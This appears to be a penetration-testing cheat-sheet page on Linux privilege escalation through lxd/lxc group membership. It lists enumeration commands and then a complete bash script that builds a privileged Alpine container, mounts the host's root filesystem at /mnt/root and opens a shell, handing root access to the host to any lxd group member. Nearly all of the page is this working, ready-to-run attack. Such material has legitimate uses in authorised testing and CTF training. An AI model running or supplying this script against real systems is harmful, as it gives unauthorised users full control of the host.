 ```yaml
---
title: lxd/lxc Group
description: Linux Privilege Escalation Group
---
```

If you belong to the Lxd group, you may be able to the root privileges.
```bash
groups
```
```bash
id
```
#### Check if Container Image Exists
```bash
lxc image list
```


#### Automated lxc Privilege Escalation via Bash Script.
Download the Alpine image from https://github.com/saghul/lxd-alpine-builder/tree/master
```bash
#!/bin/bash

# First, download the Alpine image from https://github.com/saghul/lxd-alpine-builder/tree/master
# and then upload it to the target machine.


# Define variables
# Set IMAGE_FILE to the correct Alpine image file (e.g., alpine-xxxxx_xxx.tar.gz)
IMAGE_FILE="alpine-v3.13-x86_64-20210218_0139.tar.gz"
IMAGE_ALIAS="privesc"
CONTAINER_NAME="privesc2root"

# Import the image to LXC
lxc image import "$IMAGE_FILE" --alias "$IMAGE_ALIAS"

# Initialize the container with elevated privileges
lxc init "$IMAGE_ALIAS" "$CONTAINER_NAME" -c security.privileged=true

# Add a disk device with access to the host root
lxc config device add "$CONTAINER_NAME" mydevice disk source=/ path=/mnt/root recursive=true

# Start the container
lxc start "$CONTAINER_NAME"

# Execute a shell inside the container
lxc exec "$CONTAINER_NAME" -- /bin/sh
```
